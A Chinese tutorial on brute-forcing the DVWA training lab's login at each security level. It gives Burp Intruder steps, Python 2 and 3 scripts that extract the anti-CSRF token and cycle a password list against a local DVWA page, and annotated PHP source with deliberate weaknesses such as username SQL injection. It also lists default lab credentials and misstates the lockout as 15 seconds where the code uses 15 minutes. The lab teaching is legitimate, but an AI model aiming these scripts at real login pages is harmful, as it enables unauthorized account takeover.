










2026 // 03 / 28
DVWA 靶场 Brute Force（暴力破解）全难度教程（附代码分析）
建议使用 owaspbwa 靶场可以不用搭建 DVWA 以及其他常用靶场，省去搭建靶场的困扰，但是此靶机靶场较老，并不建议使用。
owaspbwa 下载地址：OWASP Broken Web Applications Project
注：owaspbwa 的本机用户名 root 密码 owaspbwa，记得看看靶机的 IP 方便以后使用。DVWA 的用户名和密码都为 admin（owaspbwa 中的 DVWA 是此，其他的用户名为 admin 密码为 password）。
利用抓包软件抓包，来不断对单个用户名穷举密码的操作。
注：密码本和用户名本里面应当有所谓的用户名和密码。
打开 Burp 对此网站抓包，用户和密码随便输入，只是为了抓包：

将此数据包发送到 Intruder 模块：


这里会有几个标出来的字段，直接选择 Clear，选中需要爆破的 username 和 password 的值利用 Add 添加（也可以直接爆破密码，前提是要知道用户名，建议直接 admin）：

选中 Payloads 模块进行设置，直接在 Payload Options 选择 Load 去添加字典，或者用 Add 添加单个字段：

点击右上角的 Start Attack 就行，等待一下就可以。通过 Status 和 Length 筛选可以看到密码：

<?php
if( isset( $_GET[ 'Login' ] ) ) {
// Get username
$user = $_GET[ 'username' ];
// Get password
$pass = $_GET[ 'password' ];
$pass = md5( $pass );
// Check the database
$query = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
$result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
if( $result && mysqli_num_rows( $result ) == 1 ) {
// Get users details
$row = mysqli_fetch_assoc( $result );
$avatar = $row["avatar"];
// Login successful
echo "<p>Welcome to the password protected area {$user}</p>";
echo "<img src=\"{$avatar}\" />";
}
else {
// Login failed
echo "<pre><br />Username and/or password incorrect.</pre>";
}
((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}
?>就是一个只实现了登录的代码，只是对密码进行 md5 加密，防止我们通过密码进行 SQL 注入（可以使用 username 进行 SQL 注入），可没有对账号的登录尝试次数做限制。
与上一难度一样，但是需要设置时停。修改 Burp 的 Resource Pool 模块（本模块是修改攻击速度）：

按此配置就行，可以试试能不能更快爆破，只要大于网站要求请求时间即可。结果与上面一样（爆破会很慢的，就不放出来了）。
<?php
if( isset( $_GET[ 'Login' ] ) ) {
// Sanitise username input
$user = $_GET[ 'username' ];
$user = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $user ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
// Sanitise password input
$pass = $_GET[ 'password' ];
$pass = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $pass ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
$pass = md5( $pass );
// Check the database
$query = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
$result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
if( $result && mysqli_num_rows( $result ) == 1 ) {
// Get users details
$row = mysqli_fetch_assoc( $result );
$avatar = $row["avatar"];
// Login successful
echo "<p>Welcome to the password protected area {$user}</p>";
echo "<img src=\"{$avatar}\" />";
}
else {
// Login failed
sleep( 2 );
echo "<pre><br />Username and/or password incorrect.</pre>";
}
((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}
?>这边的代码加上了一个延迟两秒才能下一个，所以延长了爆破时间，增加的是时间成本。
mysqli_real_escape_string(string, connection)：函数会对字符串 string 中的特殊符号（\x00, \n, \r, \, ', ", \x1a）进行转义，基本可以抵抗 SQL 注入。
建议看看 token 是否正常，建议用 Linux。
前面一样，修改 Options 下的 Grep-Extract：


找到 token，先修改值，再单击 Refetch Response：

将 Payloads 下的 Payload Set 改为 2，就可以攻击了。
Python 2.x 脚本：
from bs4 import BeautifulSoup
import urllib2
header={'Host':'127.0.0.1',
'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:55.0) Gecko/20100101 Firefox/55.0',
'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
'Accept-Language':'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
'Referer':'http://127.0.0.1/vulnerabilities/brute/',
'cookie':'PHPSESSID=6oqhn9tsrs80rbf3h4cvjutnn6; security=high',
'Connection':'close',
'Upgrade-Insecure-Requests':'1'
}
requrl="http://127.0.0.1/vulnerabilities/brute/"
def get_token(requrl,header):
req=urllib2.Request(url=requrl,headers=header)
response=urllib2.urlopen(req)
print response.getcode(),
the_page=response.read()
print len(the_page)
soup=BeautifulSoup(the_page,"html.parser")
input=soup.form.select("input[type='hidden']")
user_token=input[0]['value']
return user_token
user_token=get_token(requrl,header)
i=0
for line in open("E:\Password\mima.txt"):
requrl="http://127.0.0.1/vulnerabilities/brute/?username=admin&password="+line.strip()+"&Login=Login&user_token="+user_token
i=i+1
print i , 'admin' ,line.strip(),
user_token=get_token(requrl,header)
if(i==20):
breakPython 3.x 脚本：
from bs4 import BeautifulSoup
import requests
header={'Host':'127.0.0.1',
'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:55.0) Gecko/20100101 Firefox/55.0',
'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
'Accept-Language':'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
'Referer':'http://127.0.0.1/vulnerabilities/brute/',
'cookie':'PHPSESSID=8p4kb7jc1df431lo6qe249quv2; security=high',
'Connection':'close',
'Upgrade-Insecure-Requests':'1'
}
requrl="http://127.0.0.1/vulnerabilities/brute/"
def get_token(requrl,header):
response=requests.get(url=requrl,headers=header)
print (response.status_code,len(response.content))
soup=BeautifulSoup(response.text,"html.parser")
input=soup.form.select("input[type='hidden']")
user_token=input[0]['value']
return user_token
user_token=get_token(requrl,header)
i=0
for line in open("E:\Password\mima.txt"):
requrl="http://127.0.0.1/vulnerabilities/brute/?username=admin&password="+line.strip()+"&Login=Login&user_token="+user_token
i=i+1
print (i , 'admin' ,line.strip(),end=" ")
user_token=get_token(requrl,header)
if(i==20):
break参考自：DVWA之Brute Force(暴力破解)。这个自己跑下吧。
<?php
if( isset( $_GET[ 'Login' ] ) ) {
// Check Anti-CSRF token
checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
// Sanitise username input
$user = $_GET[ 'username' ];
$user = stripslashes( $user );
$user = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $user ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
// Sanitise password input
$pass = $_GET[ 'password' ];
$pass = stripslashes( $pass );
$pass = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $pass ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
$pass = md5( $pass );
// Check database
$query = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
$result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
if( $result && mysqli_num_rows( $result ) == 1 ) {
// Get users details
$row = mysqli_fetch_assoc( $result );
$avatar = $row["avatar"];
// Login successful
echo "<p>Welcome to the password protected area {$user}</p>";
echo "<img src=\"{$avatar}\" />";
}
else {
// Login failed
sleep( rand( 0, 3 ) );
echo "<pre><br />Username and/or password incorrect.</pre>";
}
((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}
// Generate Anti-CSRF token
generateSessionToken();
?>前面的防护基础上加上了 Anti-CSRF Token 来抵御 CSRF 的攻击，使用了 stripslashes 函数和 mysqli_real_escape_string 来抵御 SQL 注入和 XSS 的攻击。由于使用了 Anti-CSRF Token，每次服务器返回的登录页面中都会包含一个随机的 user_token 的值，用户每次登录时都要将 user_token 一起提交。服务器收到请求后，会优先做 token 的检查，再进行 SQL 查询。
<?php
if( isset( $_POST[ 'Login' ] ) && isset ($_POST['username']) && isset ($_POST['password']) ) {
// Check Anti-CSRF token
checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
// Sanitise username input
$user = $_POST[ 'username' ];
$user = stripslashes( $user );
$user = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $user ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
// Sanitise password input
$pass = $_POST[ 'password' ];
$pass = stripslashes( $pass );
$pass = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $pass ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
$pass = md5( $pass );
// Default values
$total_failed_login = 3;
$lockout_time = 15;
$account_locked = false;
// Check the database (Check user information)
$data = $db->prepare( 'SELECT failed_login, last_login FROM users WHERE user = (:user) LIMIT 1;' );
$data->bindParam( ':user', $user, PDO::PARAM_STR );
$data->execute();
$row = $data->fetch();
// Check to see if the user has been locked out.
if( ( $data->rowCount() == 1 ) && ( $row[ 'failed_login' ] >= $total_failed_login ) ) {
// User locked out.
$last_login = strtotime( $row[ 'last_login' ] );
$timeout = $last_login + ($lockout_time * 60);
$timenow = time();
// Check to see if enough time has passed
if( $timenow < $timeout ) {
$account_locked = true;
}
}
// Check the database (if username matches the password)
$data = $db->prepare( 'SELECT * FROM users WHERE user = (:user) AND password = (:password) LIMIT 1;' );
$data->bindParam( ':user', $user, PDO::PARAM_STR);
$data->bindParam( ':password', $pass, PDO::PARAM_STR );
$data->execute();
$row = $data->fetch();
// If its a valid login...
if( ( $data->rowCount() == 1 ) && ( $account_locked == false ) ) {
// Get users details
$avatar = $row[ 'avatar' ];
$failed_login = $row[ 'failed_login' ];
$last_login = $row[ 'last_login' ];
// Login successful
echo "<p>Welcome to the password protected area <em>{$user}</em></p>";
echo "<img src=\"{$avatar}\" />";
// Had the account been locked out since last login?
if( $failed_login >= $total_failed_login ) {
echo "<p><em>Warning</em>: Someone might of been brute forcing your account.</p>";
echo "<p>Number of login attempts: <em>{$failed_login}</em>.<br />Last login attempt was at: <em>${last_login}</em>.</p>";
}
// Reset bad login count
$data = $db->prepare( 'UPDATE users SET failed_login = "0" WHERE user = (:user) LIMIT 1;' );
$data->bindParam( ':user', $user, PDO::PARAM_STR );
$data->execute();
} else {
// Login failed
sleep( rand( 2, 4 ) );
// Give the user some feedback
echo "<pre><br />Username and/or password incorrect.<br /><br/>Alternative, the account has been locked because of too many failed logins.<br />If this is the case, <em>please try again in {$lockout_time} minutes</em>.</pre>";
// Update bad login count
$data = $db->prepare( 'UPDATE users SET failed_login = (failed_login + 1) WHERE user = (:user) LIMIT 1;' );
$data->bindParam( ':user', $user, PDO::PARAM_STR );
$data->execute();
}
// Set the last login time
$data = $db->prepare( 'UPDATE users SET last_login = now() WHERE user = (:user) LIMIT 1;' );
$data->bindParam( ':user', $user, PDO::PARAM_STR );
$data->execute();
}
// Generate Anti-CSRF token
generateSessionToken();
?>在上一难度的基础上对用户的操作做了限制，当登录失败 3 次后，账号会锁住 15 秒，同时采用了更为安全的 PDO（PHP Data Object）机制防御 SQL 注入，SQL 注入的关键就是通过破坏 SQL 语句结构执行恶意的 SQL 命令。